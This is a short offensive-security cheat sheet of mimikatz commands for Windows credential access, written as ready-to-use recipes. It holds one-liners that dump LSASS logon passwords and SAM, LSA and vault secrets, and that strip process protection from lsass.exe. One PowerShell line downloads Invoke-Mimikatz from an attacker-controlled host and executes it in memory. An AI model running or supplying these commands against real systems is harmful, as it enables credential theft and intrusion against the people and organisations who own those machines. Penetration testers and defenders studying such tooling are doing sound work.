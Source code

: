 # mimikatz

% mimikatz, passwords
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

## _doc
```
https://tools.thehacker.recipes/mimikatz/modules/lsadump/lsa
```


## ps1 - load Invoke-Mimikatz
https://github.com/clymb3r/PowerShell/blob/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/Invoke-Mimikatz.ps1') | IEX ; Invoke-mimikatz
```

## onliner
```
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords /all" "lsadump::sam" "exit"
```

## disable PPL and dump passwords
```
mimikatz.exe "privilege::debug" "!+" "!processprotect /process:lsass.exe /remove" "sekurlsa::logonpasswords /all" "exit"
```

## vault - Get passwords of scheduled tasks
```
mimikatz.exe "privilege::debug" "token::elevate" "vault::cred /patch" "exit"
```


## dump SAM - online
```
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

## dump SAM - extract credentials from shadow copy (1)
```
mimikatz.exe "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM"
```

## dump LSA - online
```
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords /all"
```
